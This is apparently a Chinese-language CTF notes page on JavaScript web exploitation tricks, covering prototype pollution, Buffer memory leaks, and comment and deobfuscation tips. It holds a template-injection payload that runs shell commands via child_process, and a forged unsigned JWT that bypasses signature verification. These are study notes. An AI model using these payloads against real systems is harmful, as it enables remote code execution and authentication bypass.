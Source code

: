 - # 原型链污染
	- [[CTF/JS/原型链污染]]
- # 在HTTP请求中伪造整个HTTP请求
	- ((63c7fc34-474b-48bd-a4f8-5c5a68188c89))
- # outputFunctionName
	- `a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//`
- # 大小写转换
	- https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html
- # 乱码加密
  id:: 636665b6-16ed-4f0a-b6fc-46c5756e5222
	- 题目：NaNNaNNaNNaN-Batman
	  
	  js 中的控制字符代表 js 代码，可以被 js 自动转义
- # Buffer()
	- 在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。
- # JWT
  id:: 62efd884-36bd-4729-a628-6c94b3f1b08b
	- 不知道 secret，可以通过传入一个 undefined 来关闭验证功能。
		- ```javascript
		  const evil_jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY0NzMzNDY5OH0."
		  const result = jwt.verify(
		  evil_jwt,   // 不包含签名的自定义jwt
		  undefined,  // secret
		  "HS256"     //受害者指定的加密算法
		  );
		  ```
- # 绕过
	- [[CTF/JS/WAF绕过]]
- # 注释
	- JS 也可以使用 html 的注释`<!-- -->`
- # 解混淆
	- https://blog.csdn.net/weixin_43411585/article/details/123437953
	- https://blog.csdn.net/freeking101/article/details/121668637